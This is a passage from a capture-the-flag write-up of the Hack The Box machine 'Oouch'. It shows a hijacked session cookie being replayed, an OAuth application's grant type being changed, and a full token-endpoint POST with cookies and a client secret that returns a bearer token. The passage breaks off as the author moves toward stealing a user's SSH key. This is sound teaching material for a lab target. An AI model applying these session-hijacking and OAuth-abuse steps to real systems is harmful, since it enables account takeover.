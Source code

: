 Let's request http://authorization.oouch.htb:8000/ but with qtc's cookie.

We are now logged in as qtc:

![](https://i.imgur.com/WOeWna9.png)

As listed on the home page there is a token endpoint but it seems not reachable with GET, so let's try a POST (as explained in Oracle oAuth doc anyway). The doc also tells us which params to use.

```
POST /oauth/token/ HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: sessionid=08lyfd5lxftdn9v5gd7knjxok4unsf0e; csrftoken=w8Q1tZ5XGQnYIfsjJMNksuQoCg5yYHOtkiWHEK2j8Xsu4ti75whbRr32oLBxC6bZ
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 223

grant_type=client_credentials&client_id=ZOm8R6GdrX3CacO5mvG3pVuSYcKQWXrpN8aSCDuX&client_secret=Wy3JSx7w98SUgoKC1SldvjndEVATgXnoh7WgkLWNkWSWlgnxUniRqHbIRsGAZvxsMQUo1bB2XojK3jNZ7lCCpdIBIkCXspP4H2SveQ3GXHd49F3ACp3mgFddkIcmDJAs```

We receive this error:

```json
{"error": "unauthorized_client"}
```

So let's log as `noraj2` again, access the app params (http://authorization.oouch.htb:8000/oauth/applications/2/) and change _Authorization Grant Type_ to `client-credentials`.

Now we can spoof qtc cookie again and retry.

This time we obtain a much better answer:

```json
{
  "access_token": "Xkuzgir8C38MeCv2xyq08PFMDF5NwX",
  "expires_in": 600,
  "token_type": "Bearer",
  "scope": "read write"
}
```

### Get qtc SSH key

Let's remember of `o_auth_notes.txt`:

```
/api/get_user -> user data. oauth/authorize -> Now also supports GET method.
```
